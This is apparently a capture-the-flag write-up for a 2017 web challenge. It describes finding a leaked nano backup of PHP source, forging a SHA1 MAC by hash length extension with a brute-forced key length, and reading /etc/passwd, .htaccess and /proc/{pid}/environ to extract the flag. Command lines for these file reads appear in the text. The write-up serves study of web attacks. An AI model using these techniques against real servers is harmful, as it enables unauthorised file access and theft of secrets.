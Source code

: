 # Saving Gaia
Web - 100 points

## Challenge 
> Please save the environment to get the flag!

> http://web.chal.gryphonctf.com:17565

> [Update] 08/10/2017 07:20PM - Hint 1 released

> Creator - @Platy

## Hint 1
> The journal contains the necessary information to find the PHP source code


## Hint 2
> What happens to nano when it receives a SIGHUP or SIGTERM when it is running?


## Solution

Looking around, we eventually get to [the page's robots.txt](http://web.chal.gryphonctf.com:17565/robots.txt). We see there is a file called [my_journal.txt](http://web.chal.gryphonctf.com:17565/my_journal.txt) 

	
	...

	12/9/2017:	Going back to nano editor. I'm too dumb for vi, but I won't tell my senior that.

	15/9/2017:	My laptop battery spoilt and those stingy companies only gave 1 year warranty on that. Someone accidentally tripped over my wire and my screen blacked out. Thanks a lot!

	...

After reading the journal, and as hint 2 suggests, [nano was interrupted while it was in use](https://askubuntu.com/questions/601985/what-are-save-files
). 
> ... if nano receives a SIGHUP or SIGTERM or runs out of memory. It will write the buffer into a file named nano.save if the buffer didn’t have a name already, or will add a ".save" suffix to the current filename

This means there is a file at [view.php.save](http://web.chal.gryphonctf.com:17565/view.php.save)

---

Opening it, we see the PHP source code within the HTML

	<?php
		$SECRET = ""; // To do in the future
		$file = $_POST["file"];
		$mac = $_POST["mac"];
		$magic = $_POST["magic"];
		for( $i = 0; $i <= strlen($file); $i++ ) {
			$num1 += ord($file[$i]);
		}
		for( $i = 0; $i <= strlen($mac); $i++ ) {
			$num2 += ord($mac[$i]);
		}
		$num3 = $num1 * $num2 - $num1 - $num2;
		if ($num3 == $magic) {
			$file = pack("H*",$file);
			$hash = hash("sha1",$SECRET.$file);
			$file = explode(",",$file);
			$file = $file[sizeof($file)-1];
			if ($hash === $mac) {
				// Figure out how to read from files
			} else {
				echo "You are not authorised to view this file!";
			}
		} else {
			echo "You are not authorised to view this file!";
		}
	?>

Let's convert the `$num3 == $magic` portion to a python function. We can see that it calculates a checksum number based on the 2 hex strings.

	python3
	>>> import gaia
	>>> gaia.magic('66696c656c6f636174696f6e2c6c6973742e747874', '48b49f65a86cd617e5c7423d23a67738c4057d06')
	6895875


Next, we realise `file` variable is in hex-encoded.
So we can change `list.txt` to another file.

	python
	>>> '66696c656c6f636174696f6e2c6c6973742e747874'.decode('hex')
	'filelocation,list.txt'


But we realise there is a [hash authentication (HMAC)](https://en.wikipedia.org/wiki/Hash-based_message_authentication_code). 
In the PHP source, are given the `$file` portion and the `$hash` of `$SECRET.$file` but no `$SECRET`
	
	$hash = hash("sha1",$SECRET.$file);


This reminds me of a [length extension attack I used in CrossCTF 2017](https://github.com/zst123/crossctf_quals-2017-writeups/tree/master/Salted_Hash_Challenge).

	$file = explode(",",$file);
	$file = $file[sizeof($file)-1];

From this portion, it takes the last comma delimited value as the filename.
We just need to apply an extension of `,new_filename`

However, we do not know the key length, so we have to bruteforce it. 
Alright, run the bruteforce!

	$ pip3 install hashpumpy
	$ python3 gaia.py

After reaching key length of `86`, we get a valid response from the website!
One thing to note is that length extension attack requires the padding which is returned by the hashpump function.

Now we have a working file viewer script!
We can read a few files, such as `/etc/passwd`, and `.htaccess` and many misc files. But I can't seem to find the flag!

	python3 -c 'from gaia import *; print(attempt(86, ",.htaccess"))'

	python3 -c 'from gaia import *; print(attempt(86, ",/etc/passwd"))'

	python3 -c 'from gaia import *; print(attempt(86, ",/usr/include/error.h"))'

---

I spent hours manually transversing through the directory to no avail. I asked the challenge creator for hints and they mentioned looking for "files" which store "environment variables". Alright, looks like I must save the "environment" indeed!

I ruled the following out after it didn't work

	python3 -c 'from gaia import *; print(attempt(86, ",/etc/environment"))'
	python3 -c 'from gaia import *; print(attempt(86, ",.env"))'
	python3 -c 'from gaia import *; print(attempt(86, ",.environment"))'
	python3 -c 'from gaia import *; print(attempt(86, ",.dockerenv"))'


Feeling lost, I tried to search for `env` files on my own Ubuntu machine (which is the common shorthand for environment).

	$ find . -name '*env*'
	...
	
	./etc/environment
	./lib/x86_64-linux-gnu/security/pam_env.so
	./proc/1/task/1/environ
	./proc/1/environ
	./proc/281/task/281/environ
	./proc/281/environ
	./proc/333/task/333/environ
	./proc/333/environ
	./proc/350/task/350/environ
	
	...

Seems logical... [Environment variables which are stored in memory can be accessed at `/proc/pid/environ`](https://stackoverflow.com/a/532284). The key word hinted by the creator is "variables" which are created at runtime.

---

I decided to bruteforce the `pid` in `/proc/{pid}/environ`.
Eventually, the flag is found at `,/proc/6594/environ`!

	$ python3 bruteforce_env.py
	...
		<h2>Here are our proud supporters!</h2>
		<article>
			APACHE_PID_FILE=/var/run/apache2/apache2.pidHOSTNAME=d9fbb360e3bdAPACHE_RUN_USER=www-dataPHP_INI_DIR=/usr/local/etc/phpPHP_ASC_URL=https://secure.php.net/get/php-7.0.24.tar.xz.asc/from/this/mirrorPHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2PHP_MD5=PHPIZE_DEPS=autoconf 		dpkg-dev 		file 		g++ 		gcc 		libc-dev 		libpcre3-dev 		make 		pkg-config 		re2cPHP_URL=https://secure.php.net/get/php-7.0.24.tar.xz/from/this/mirrorAPACHE_ENVVARS=/etc/apache2/envvarsPHP_LDFLAGS=-Wl,-O1 -Wl,--hash-style=both -pieAPACHE_LOG_DIR=/var/log/apache2PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2GPG_KEYS=1A4E8B7277C42E53DBA9C7B9BCAA30EA9C0D5763 6E4F6AB321FDC07F2C332E3AC2BF0BC433CFC8B3PWD=/var/www/htmlLANG=CAPACHE_RUN_GROUP=www-dataSHLVL=0PHP_SHA256=4dba7aa365193c9229f89f1975fad4c01135d29922a338ffb4a27e840d6f1c98APACHE_CONFDIR=/etc/apache2PHP_EXTRA_BUILD_DEPS=apache2-devAPACHE_LOCK_DIR=/var/lock/apache2APACHE_RUN_DIR=/var/run/apache2PHP_VERSION=7.0.24PHP_EXTRA_CONFIGURE_ARGS=--with-apxs2Flag=GCTF{6l0b4l_w4rm1n6_15_r34lz}			</article>

## Flag
`GCTF{6l0b4l_w4rm1n6_15_r34lz}`